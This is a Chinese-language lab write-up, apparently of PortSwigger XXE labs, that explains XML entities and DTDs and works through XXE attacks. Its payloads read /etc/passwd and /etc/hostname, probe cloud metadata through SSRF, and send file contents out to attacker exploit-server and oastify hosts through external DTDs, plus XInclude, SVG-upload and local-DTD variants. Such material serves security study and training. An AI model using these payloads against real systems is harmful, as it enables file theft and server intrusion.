

## XML external entity injection 

`XXE`（XML外部实体注入）

XML 外部实体注入（也称为 `XXE`）是一种网络安全漏洞，允许攻击者干扰应用程序处理 XML 数据的方式。这通常允许攻击者查看应用程序服务器文件系统上的文件，以及与应用程序本身可以访问的任何后端或外部系统进行交互。

在某些情况下，攻击者可以利用` XXE `漏洞执行（`SSRF`）攻击，从而将` XXE `攻击提升为损害底层服务器或其他后端基础设施。



## XML 实体

### 什么是XML？

XML 代表`可扩展标记语言`。XML 是一种用于存储和传输数据的语言。与 HTML 类似，XML 使用**标签和数据构成的树状结构**。与 HTML  不同，XML 不使用预定义的标签，因此标签可以取描述数据的名称。在互联网早期，XML  曾作为数据传输格式而流行（“AJAX”中的“X”代表“XML”）。但如今，其受欢迎程度已经下降，转而支持`json`格式。

### 什么是 XML 实体

XML 实体是表示 XML 文档中数据项的一种方式，而不是使用数据本身。XML 语言规范中内置了各种实体。例如，实体 `<` 和 `>` 代表字符 `<` 和 `>` 。这些是用于**表示 XML 标签的元字符**，因此通常在数据中出现时必须使用它们的实体。

```
实体 &lt; 和 &gt; 代表字符 < 和 >
```

### 什么是文档类型定义？

`document type definition`（DTD）

XML 文档类型定义（DTD）包含可以定义 XML 文档结构、它可以包含的数据值的类型以及其他项目的声明。DTD 可以在 XML 文档开始处的可选 `DOCTYPE` 元素中声明。DTD 可以是完全包含在文档本身中（称为“内部 DTD”）或可以从其他地方加载（称为“外部 DTD”）或可以是两者的混合体。

### XML 自定义实体

XML 允许在 DTD 中定义自定义实体。例如：

```dtd
<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>
```

这个定义意味着 XML 文档中任何对实体引用 `&myentity;` 的使用都将被替换为定义的值：`my entity value` 

### XML 外部实体

XML 外部实体是一种自定义实体

外部实体的声明使用 `SYSTEM` 关键字，并必须指定一个 URL，从该 URL 加载实体的值。例如：

```dtd
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>
```

URL 可以使用 `file://` 协议，因此外部实体可以从文件中加载。例如：

```dtd
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>
```

**XML 外部实体**是 XML 外部实体攻击产生的主要原因

## XXE 的攻击类型

- `file`协议读取文件
- 利用` XXE `执行 `SSRF `攻击，其中定义了一个基于后端系统 URL 的外部实体
- 盲` XXE `进行带外数据泄露
- 盲` XXE `通过错误消息检索数据

## 预防 XXE 漏洞

通常，禁用**外部实体解析**和禁用对 `XInclude` 的支持就足够了

## labs

### XXE 读取文件

这个查询商品库存的功能，使用xml格式传递数据


引入外部实体，file协议读取文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///etc/passwd" > ]>
<stockCheck>
    <productId>&ext;</productId>
    <storeId>1</storeId>
</stockCheck>
```

### 利用 XXE 执行 SSRF

XXE 攻击的另一个主要影响是它们可以用来执行服务器端请求伪造（SSRF）。

这是一种潜在的严重漏洞，其中服务器端应用程序可能会被诱导向服务器可以访问的任何 URL 发起 HTTP 请求

读取`http://169.254.169.254/`的敏感数据，需要迭代读取，最终读到数据


### 盲 XXE 带外

跟上一关一样，生成一个dnslog，观察反应


可以验证存在盲 `XXE`漏洞

### 盲 XXE 带外 参数实体

```dtd
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://075ppyh9w4pu697b2nnvnpatqkwbk48t.oastify.com" > %xxe; ]>
```

参数实体（Parameter Entity）是 XML 中的一种特殊实体，用于在 XML 文档的 DTD（文档类型定义）中定义可重用的内容

`%` 符号表示这是一个参数实体

`%xxe;` 是对上述定义的引用


### 盲 XXE 加载外部dtd

编辑一个`DTD`，放在服务器

```dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://exploit-0a3a003803d23728807e98cd01da00ac.exploit-server.net/%file;'>">
%int;
%send;
```

payload:

利用参数实体，引入我们服务器上的`DTD`文件

```dtd
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0a3a003803d23728807e98cd01da00ac.exploit-server.net/exploit.dtd" > %xxe; ]>
```


查看访问日志，拿到hostname


### 盲 XXE 通过错误信息

编辑一个`DTD`，放在服务器

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'file:///invalid/%file;'>">
%int;
%send;
```

引用`DTD`

```dtd
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "https://exploit-0af700560376e3fb8080438a01e9000b.exploit-server.net/exploit.dtd" > %xxe; ]>
```


直接将文件内容包含出来

### XInclude 攻击

一些应用程序接收客户端提交的数据，将其嵌入到服务器端的 XML 文档中，然后解析该文档。

一个例子是将客户端提交的数据放入后端` SOAP `请求中，然后由后端` SOAP `服务进行处理。

SOAP消息的XML结构示例：

```xml
<soap:Envelope xmlns:soap="http://www.w3.org/2003/05/soap-envelope">
    <soap:Header>
        <!-- 可选的头部信息 -->
    </soap:Header>
    <soap:Body>
        <!-- 请求或响应数据 -->
    </soap:Body>
</soap:Envelope>
```

**XInclude 介绍**

导入外部xml文档，类似于php的include，将外部定义的dtd引入当前文件，因为引入外部实体具有局限性，所以使用xinclude来引入

正常请求数据包：


执行 `XInclude` 攻击，需要引用 `XInclude` 命名空间并提供要包含的文件路径

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```


参考：

https://www.cnblogs.com/hf99/p/9748536.html

### XXE 文件上传

`svg`图片的格式是`xml`

```xml
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>
```

写入svg文件，在blog下方上传作为头像


`hostname：cf3510b77286`

### 通过重新定义本地DTD

使用GNOME桌面环境的系统通常在`/usr/share/yelp/dtd/docbookx.dtd`中有一个`DTD`，其中包含一个名为`ISOamso`的实体

重新定义`ISOamso`的实体，利用错误信息读取`/ec/passwd`

```dtd
<!DOCTYPE message [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

